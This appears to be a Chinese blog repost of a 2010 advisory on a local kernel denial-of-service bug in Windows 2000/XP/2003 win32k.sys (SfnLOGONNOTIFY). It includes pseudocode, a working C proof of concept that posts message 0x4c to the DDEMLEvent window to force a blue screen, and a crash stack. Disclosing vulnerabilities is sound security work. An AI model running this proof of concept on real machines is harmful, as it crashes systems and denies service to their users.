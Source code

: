 ```yaml
---
title: Windows 2000/XP/2003 win32k.sys SfnLOGONNOTIFY 本地内核拒绝服务漏洞
description: post/Windows-2000-XP-2003-win32k.sys-SfnLOGONNOTIFY-local-DOS.html">Windows2000/XP/2003win32k.sysSfnLOGONNOTIFY本地内核拒绝服务漏洞影响范围:post/Deepin-LiteXP-Windows-XP-SP3-V6.2.html">MicrosoftWindowsXP/2000/2003全补丁漏洞细节：Win32k.sys在DispatchMessage时，会最后调用到xxxDefWindowProc,这个函数在处理某些消息时，会调用gapfnScSendMessage这个函数表中的函数来处理，其中2000/post/Deepin-GHOST-XP-SP3-V9.0-ISO.html">xp/2003下在处理0x4c号消息时，会有一个名为post/Windows-2000-XP-2003-win32k.sys-SfnLOGONNOTIFY-local-DOS.html">SfnLOGONNOTIFY的函数，这个函数再当wParam==4/13/12时，直接从lParam里取出数据，尽管函数内使用了SEH，但是只要传递错误的内核地址，仍然会引发系统崩溃。……
date: 2010-04-27 11:01:03
category: 漏洞信息
tags: ['漏洞信息', '内核', 'Windows']
post_id: 1124
alias: Windows-2000-XP-2003-win32k.sys-SfnLOGONNOTIFY-local-DOS
ViewNums: 2772
---
```


[Windows 2000/XP/2003 win32k.sys SfnLOGONNOTIFY 本地内核拒绝服务漏洞](/blog/windows-2000-xp-2003-win32ksys-sfnlogonnotify-local-dos)
影响范围:[Microsoft Windows XP](/blog/deepin-litexp-windows-xp-sp3-v62)/2000/2003 全补丁

漏洞细节：

Win32k.sys 在DispatchMessage时，会最后调用到xxxDefWindowProc,这个函数在处理某些消息时，会调用gapfnScSendMessage这个函数表中的函数来处理，其中2000/[xp](/blog/deepin-ghost-xp-sp3-v90-iso)/2003下在处理0x4c号消息时，会有一个名为[SfnLOGONNOTIFY](/blog/windows-2000-xp-2003-win32ksys-sfnlogonnotify-local-dos) 的函数，这个函数再当wParam == 4/13/12时，直接从lParam里取出数据，尽管函数内使用了SEH，但是只要传递错误的内核地址，仍然会引发系统崩溃。

伪代码：

if ( wParam == 4 || wParam == 13 || wParam == 12 )
{
    v18 = *(_DWORD *)lParam;
    v19 = *(_DWORD *)(lParam + 4);
    v20 = *(_DWORD *)(lParam + 8);
    v21 = *(_DWORD *)(lParam + 12);

测试代码：

#include "stdafx.h"
#include "windows.h"
int main(int argc, char* argv[])
{

printf("Microsoft Windows Win32k.sys SfnLOGONNOTIFY Local D.O.S Vuln
By MJ0011
th_decoder@126.com
PressEnter");

getchar();
HWND hwnd = FindWindow("DDEMLEvent" , NULL);

if (hwnd == 0 )
{
   printf("cannot find DDEMLEvent Window!
");
   return 0 ;
}

PostMessage(hwnd , 0x4c , 0x4 , 0x80000000);

return 0 ;
}

全补丁的XP运行此代码立即蓝屏

常见崩溃栈：

kd> kc

win32k!SfnLOGONNOTIFY
win32k!xxxDefWindowProc
win32k!xxxEventWndProc
win32k!xxxDispatchMessage
win32k!NtUserDispatchMessage
....

[Windows 7](/blog/windows-7-rtm-build-760016385)/Vista 无此问题

via [mj0011](http://hi.baidu.com/mj0011)

